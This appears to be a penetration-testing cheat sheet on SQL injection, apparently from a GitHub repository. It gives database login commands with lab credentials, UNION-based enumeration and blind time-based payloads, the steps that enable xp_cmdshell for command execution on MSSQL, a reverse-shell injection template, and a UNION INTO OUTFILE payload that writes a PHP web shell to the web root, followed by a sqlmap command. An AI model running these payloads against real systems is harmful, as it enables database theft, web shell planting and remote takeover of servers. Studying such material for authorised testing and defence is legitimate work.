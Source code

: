 # SQL Injection
SQL Injections are the most common form of injections because SQL databases are very popular in dynamic web applications. This vulnerability allows an attacker to tamper existing SQL queries performed by the web application. Depending on the queries, the attacker might be able to access, modify or even destroy data from the database. Since databases are commonly used to store private data, such as authentication information, personal user data and site content, if an attacker gains access to it, the consequences are typically very severe, ranging from defacement of the web application to users data leakage or loss, or even full control of the web application or database server.

# DB Types and Characteristics
```bash
# MySQL
mysql -u root -p'root' -h 192.168.50.16 -P 3306 --skip-ssl-verify-server-cert

# MSSQL
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```
# UNION-based Payloads
When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the UNION keyword to retrieve data from other tables within the database. This is commonly known as a SQL injection UNION attack.
```SQL
# Determine the number of columns
' ORDER BY 1-- //
%' UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5' -- //

# Enumeration
%' UNION SELECT database(), user(), @@version, null, null -- //
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
# Blind SQL Injection
Blind SQL (Structured Query Language) injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response. This attack is often used when the web application is configured to show generic error messages, but has not mitigated the code that is vulnerable to SQL injection. When an attacker exploits SQL injection, sometimes the web application displays error messages from the database complaining that the SQL Query’s syntax is incorrect. Blind SQL injection is nearly identical to normal SQL Injection, the only difference being the way the data is retrieved from the database. When the database does not output data to the web page, an attacker is forced to steal data by asking the database a series of true or false questions. This makes exploiting the SQL Injection vulnerability more difficult, but not impossible.

This is a SQL Injection cheat sheet for testing:  [Cheatsheet](https://github.com/payloadbox/sql-injection-payload-list)

```SQL
# Test for blind SQLi
' AND IF (1=1, sleep(3),'false') -- //
```

# MSSQL Code Execution
In MSSQL thanks to the keyword execute, we can execute arbitrary command on the operating system below. To do that first we have to enable command execution inside the Database with

```sql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Then execute commands with

```sql
EXECUTE xp_cmdshell 'whoami'
```

Putting all togheter, we can have very fancy injections adding multiple tools.
## Blind Reverse Shell

The following payload has been crafted with [RevShells](https://www.revshells.com/)

```sql
'; EXECUTE xp_cmdshell '<CRAFTED POWERSHELL BASE64 PAYLOAD USING REVSHELL>'; --
```

# Uploading PHP Backdoor with UNION
In other database scenarios we can abuse the `SELECT INTO_OUTFILE` statement and we can try to upload something malicious in the webserver. We must have write permission in the folder we will write the file into.

```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

Next, with a simple GET request like `/tmp/cmd=whoami` we can execute commands on the webserver.

# sqlmap
Finally, we can use something that automates the SQL exploits, like **sqlmap**. With this tool we can have automatic scan and checks for any type of vulnerability on the webserver using SQL and It can also automatically upload **reverse shells** to the server. For more information check directly the project documentation [SQL-Map Documentation](https://github.com/sqlmapproject/sqlmap). A basic usage of sqlmap could be the following code

```shell
sqlmap -u 'http://<target>/page.php?user=test' -p user
```
